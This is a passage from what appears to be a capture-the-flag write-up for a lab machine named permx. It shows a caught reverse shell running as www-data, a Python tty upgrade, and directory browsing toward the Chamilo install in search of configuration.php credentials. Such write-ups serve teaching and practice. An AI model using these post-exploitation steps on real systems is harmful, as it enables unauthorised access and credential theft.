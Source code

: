 Error: Couldn't setup listening socket (err=-3)</code></pre>

<pre><code>Connection from 10.10.11.23:58742
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 23:16:16 up 13:15,  1 user,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ </code></pre>

now that we have access to the machine we can search for our first flag.

the chamilo configuration.php file may contain sensitive information, such as database credentials or system settings.
<pre><code>$ whoami
www-data</code></pre>

<pre><code>$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@permx:/$ export TERM=xterm
export TERM=xterm</code></pre>

<pre><code>www-data@permx:/$ ls
ls
bin   dev  home  lib32	libx32	   media  opt	root  sbin  sys  usr
boot  etc  lib	lib64	lost+found  mnt    proc  run   srv   tmp  var
www-data@permx:/$ cd home
cd home
www-data@permx:/home$ ls
ls
mtz
www-data@permx:/home$ cd mtz
cd mtz
bash: cd: mtz: Permission denied</code></pre>

<pre><code>www-data@permx:/$ ls
ls
bin   dev  home  lib32	libx32	   media  opt	root  sbin  sys  usr
boot  etc  lib	lib64	lost+found  mnt    proc  run   srv   tmp  var
www-data@permx:/$ cd /var/   
cd /var/
www-data@permx:/var$ ls
ls
backups  cache	crash  lib  local  lock  log  mail  opt  run  spool  tmp  www
www-data@permx:/var$ cd www
cd www
www-data@permx:/var/www$ ls
ls
chamilo  html
www-data@permx:/var/www$ cd chamilo
cd chamilo
www-data@permx:/var/www/chamilo$ ls
ls
CODE_OF_CONDUCT.md    certificates    favicon.png    terms.php
CONTRIBUTING.md       cli-config.php  index.php      user.php
LICENSE		     codesize.xml    license.txt    user_portal.php
README.md	     composer.json   main	    vendor
app		     composer.lock   news_list.php  web
apple-touch-icon.png  custompages     plugin	    web.config
bin		     documentation   robots.txt     whoisonline.php
bower.json	     favicon.ico     src	    whoisonlinesession.php</code></pre>

